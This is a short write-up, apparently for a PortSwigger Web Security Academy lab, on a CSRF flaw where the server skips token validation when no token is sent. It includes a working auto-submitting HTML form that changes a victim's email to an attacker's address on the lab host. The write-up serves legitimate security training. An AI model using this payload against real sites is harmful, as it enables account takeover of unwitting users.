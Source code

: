 # CSRF where token validation depends on token being present
# Objective
This lab's email change functionality is vulnerable to CSRF.\
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
Even though the website have `csrf` token website might not handle correctly the change email request without any token.

|![](Images/image-4.png)|
|:--:| 
| *Test of change email functionality* |

## CSRF Exploit
In order to solve the lab the following steps must be completed:
- Craft correct payload (below) - Craft POST request o `/my-account/change-email` without any `csrf` token
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

All users have to have different emails addresses.

```html
<form method="POST" action="https://0aab008f040c98bd866f2a0b005800a5.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
</form>

<script>
        document.forms[0].submit();
</script>
```

![](Images/image-5.png)
